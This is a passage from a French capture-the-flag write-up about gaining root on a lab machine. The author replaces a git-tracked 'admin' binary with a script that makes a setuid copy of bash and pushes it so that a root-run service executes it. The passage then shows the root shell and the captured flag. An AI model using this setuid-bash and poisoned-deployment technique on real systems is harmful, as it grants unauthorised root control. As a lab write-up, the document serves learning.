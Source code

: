 ```systemd
```

Et le script shell mentionné exécute `/root/admin/admin` comme on l'a vu plus tôt.

Par conséquent je vais écraser le binaire `admin` dans le projet, le `commit` et `push` puis déclencher l'action en sélectionnant le choix 2 sur le port 4545 :

```shellsession
developerdmv@dmv2:/tmp/admincopy$ cp admin /tmp/admin_bak
developerdmv@dmv2:/tmp/admincopy$ echo -e '#!/bin/bash\ncp /bin/bash /tmp/\nchmod 4755 /tmp/bash' > admin
developerdmv@dmv2:/tmp/admincopy$ git status
On branch master
Your branch is up to date with 'origin/master'.

Changes not staged for commit:
  (use "git add <file>..." to update what will be committed)
  (use "git checkout -- <file>..." to discard changes in working directory)

        modified:   admin

no changes added to commit (use "git add" and/or "git commit -a")
developerdmv@dmv2:/tmp/admincopy$ git add admin 
developerdmv@dmv2:/tmp/admincopy$ git commit -m "Hacking the Gibson"
[master 4a0c800] Hacking the Gibson
 1 file changed, 0 insertions(+), 0 deletions(-)
 rewrite admin (99%)
developerdmv@dmv2:/tmp/admincopy$ git push
Counting objects: 3, done.
Compressing objects: 100% (3/3), done.
Writing objects: 100% (3/3), 348 bytes | 87.00 KiB/s, done.
Total 3 (delta 0), reused 0 (delta 0)
To /home/developerdmv/admin.git/
   d364a80..4a0c800  master -> master
```

Et ma version a bien été exécutée, m'offrant un binaire setuid root :

```shellsession
developerdmv@dmv2:/tmp/admincopy$ ls /tmp/bash -al
-rwsr-xr-x 1 root root 1113504 Dec  2 15:09 /tmp/bash
developerdmv@dmv2:/tmp/admincopy$ /tmp/bash -p
bash-4.4# id
uid=1000(developerdmv) gid=1000(developerdmv) euid=0(root) groups=1000(developerdmv)
bash-4.4# cd /root
bash-4.4# ls
admin  root.txt
bash-4.4# cat root.txt
88888888ba,    88b           d88  8b           d8         ad888888b,  
88      `"8b   888b         d888  `8b         d8'        d8"     "88  
88        `8b  88`8b       d8'88   `8b       d8'                 a8P  
88         88  88 `8b     d8' 88    `8b     d8'               ,d8P"   
88         88  88  `8b   d8'  88     `8b   d8'  aaaaaaaa    a8P"      
88         8P  88   `8b d8'   88      `8b d8'   """"""""  a8P'        
88      .a8P   88    `888'    88       `888'             d8"          
88888888Y"'    88     `8'     88        `8'              88888888888  
                                                                      
====================================================================
                          Twitter: @over_jt
====================================================================

FLAG{a8ac60c0cfaf4617a7833c67e81d1512}
```

*Publié le 2 décembre 2022*
